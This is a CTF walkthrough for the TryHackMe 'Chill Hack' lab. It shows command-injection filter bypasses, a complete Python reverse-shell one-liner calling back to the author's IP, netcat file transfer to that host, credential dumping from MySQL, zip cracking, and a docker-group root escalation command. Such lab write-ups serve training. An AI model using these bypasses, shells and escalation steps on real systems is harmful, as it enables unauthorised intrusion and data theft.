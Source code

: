 # Try_Hack_Me Chill Hack room

### Initial port scan
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/Screenshot_2022-02-21_13-35-27.png)
------------
### Looking at FTP
- FTP is open, so looks quickly have a look before i begin diving into the webserver on port 80
- `ftP <ip>`   When proompted the credentials are: anonymous:anonymous
- So theres one file there called "note.txt". To download locally we use `mget note.txt`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/note.png)
- So not sure where this comes into play yet, but looks like were going to need to bypass some filtering
--------
### Moving onto webserver on port 80
- Before/while i start bruteforcing directories, ill visit the webpage to see what im working with.
- While Bruteforcing directories i found '/secret' webpage..so this looks interesting.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/secret.png)
- On the 'secret' webpage had a user input field which looks like its processing commands.
- `ls`, `which` would not work (It displayed "are you a hacker?") so thats one thing that was being filtered, but `id` did work.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/id.png)
--------
### Trying to get a reverse shell
- A lot of what i tried was filtered: python, nc, perl, bash...
- So i searched online to find command injection bypasses. I came across this really great github page for bypassing command injection filters. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
- I then tried `l's'` to see if i can bypass the filter.


- WOOOO SUCCESS!, was able to execute it.
- I tried the bypass with the "which" command to see what binaries i can use to get a reverse shell but wierdly it wouldnt work? not sure why, luckily i found a workaround using echo and command expansion.
- `echo $(ls /usr/bin | grep python)` I tried to see if python was available first, and theres "python3" available
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/python.png)
--------
- Alright lets try a python reverse shell now. You can easily search python reverse shells online, ill be using one from https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell (MAKE SURE TO ADD IN THE QUOTES! p'y'thon to bypass the filter)
- `p'y'thon3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.100.95",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- WOOO!, we have a shell on the machine. But we dont have a stable shell, so lets stablize it.
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`, after typing in this command we can see the users name is displayed now.
- Now press "Ctrl+Z"--this will background your shell
- Now type "stty raw -echo"
- your screen will look like its frozen at this point, just type "fg" and hit enter

-------------
- Once i get a shell, first thing i usually do is check kernal versions, sudo privileges of user, and insecure binary files/shell scripts.
- Looking at sudo priliges `sudo -l`,  www-data is allowed to run a script as apaar.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/sudo-l.png)

- Looking at the bash script, it asks for two user inputs, $person and $msg
- The first variable $person just displays it in a string, but the 2nd variable $msg gets executed in bash. Since the script gets executed as apaar we can try to maintain privileges.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/sudo-l.png)
--------
- To execute the script as another user using sudo:  `sudo -u apaar /home/apaar/.helpline.sh` (Note! you need to use the path specified in "sudo -l" which is /home/apaar/.helpline.sh)
- When it prompts me for the 2nd variable, i use `/bin/bash`. This command will get executed in the script which will give me a bash shell as the user apaar
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/apaar.png)

- Ill stabalize the shell again just like we did before with `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- Theres one file in apaar's home directory, and it is the user flag!
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/userflag.png)
---------
### Trying to find Root flag now
- I tried to see what i can run with apaar `sudo -l`....but doesnt look like anything, its the same script
- I also tried seeing if there were other scripts "aurick" owned that apaar might be able to run `find / -user aurick -iname *.sh 2>/dev/null`
- Bash histroy was also empty, and also checked binaries to see if any were exploitable..so far no luck.
- Decdied to look at the webserver files

- Inside the /var/www theres a directory called "files" that had a few php files. Looking at each file one by one, theres one that had the database creds that was not properly secured. 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/database.png)
----------
- Accessing mysql database locally `mysql -u root -p`. After if will prompt you for a password "!@m+her00+@db"
- Now to enumerate the database manually
- `show databases;` -had a webportal database which looked interesting. `use webportal`
- `show tables;` -had only one table 'users'
- `SELECT * FROM users;` -dumped all the data
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/creds.png)

- I tried to switch users and nothing.....AHHHHHHHfgsgsf, it was a rabbit hole.
- Alright back to searching in the webserver folder again. 

---------
- After digger deeper in the webserver again, inside the hacker.php file in the directory "/var/www/files" there was a message "look in the dark! you will find your answer" with an image associated. Had a feeling something was embedded in the image, from past boxes on THM i know they love to hide stuff inside images.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/sneaky.png)
- Downloaded the file which is inisde "/var/www/files/images/hacker-with-laptop_23-2147985341.jpg"
- Start a listener `nc -lnvp > image.png` now send the file over on victim   `nc 10.9.100.95 5000 < hacker-with-laptop_23-2147985341.jpg`
- use steghide to attempt to extract the data `steghide extract -sf image.png`
- Alright great!, it created a "backup.zip" file, when we try to unzip it keeps asking for a password, so we can crack this with john
--------
- Cracking the zip file, John was giving me issues with the formating so i had to force the format. When you run john on the hashed file john will attempt to identify it. Then you can force the format after that.
- `john --format=pkzip  backupzip_hash -wordlist:/usr/share/wordlists/rockyou.txt`
- As we can see from the screenshot the password is "pass1word" 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/zipcrack.png)!d0ntKn0wmYp@ssw0rd
- After unziping and entering in the password it created a source_code.php file. 
- Cating the file i immediately saw a password that was in base64, with a string below it that says "welcome anurodh" so this has to be his password
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/pass.png)
- Decoding it i got "!d0ntKn0wmYp@ssw0rd"
---------
- Back on my victim machine i tried to switch users `su anurodh` with using the same password. And it WORKED!
- Alright enumerating this user now. I tried sudo -l but nothing i could use. I looked at the group the user belonged to, and he was part of a docker group. From prior boxes i know theres a priv esc for this. I want to the GTFObins website and tried using a shell escape.
- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
- FInally! GOT ROOT.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/THM_chill_hack/images/root.png)


